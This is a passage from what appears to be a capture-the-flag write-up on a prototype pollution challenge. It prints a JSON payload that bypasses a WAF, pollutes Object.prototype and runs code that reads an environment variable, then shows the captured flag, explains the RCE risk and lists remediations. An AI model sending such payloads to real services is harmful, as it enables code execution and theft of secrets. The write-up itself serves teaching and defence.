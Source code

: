 ## Proof of Concept
With our crafted payload, we are able to
1. Bypass the WAF restriction
2. Pollute the JavaScript Object.prototype
3. Run arbitrary JavaScript code

**PAYLOAD: `{"constructor": {"prototype": {"debug": {"active": true,"code":"process.env.FLAG"}}},"random": {"toString":{}}}`**

**FLAG: `FLAG{$m4ll_m1st4ke_t0_rcE!}`**

## Risk
An attacker could exploit this vulnerability to perform Remote Code Execution (RCE) and run arbitrary JavaScript code, disclosing sensitive information such as environment variables, and even read files on the web server.

**Remediation
The following methods could be used to prevent Prototype Pollution attacks
- Use Object.create(proto) to create hacker profile objects with a custom prototype
- Run Object.freeze(Object.prototype) to prevent modifications from being made on the default prototype
- Add new WAF rules to prevent keywords such as "constructor" or "prototype" from being used as keys. However, this method is tricky to implement as there may be loopholes attackers can exploit to bypass such rules.

![Challenge Completed](./pwned.jpeg)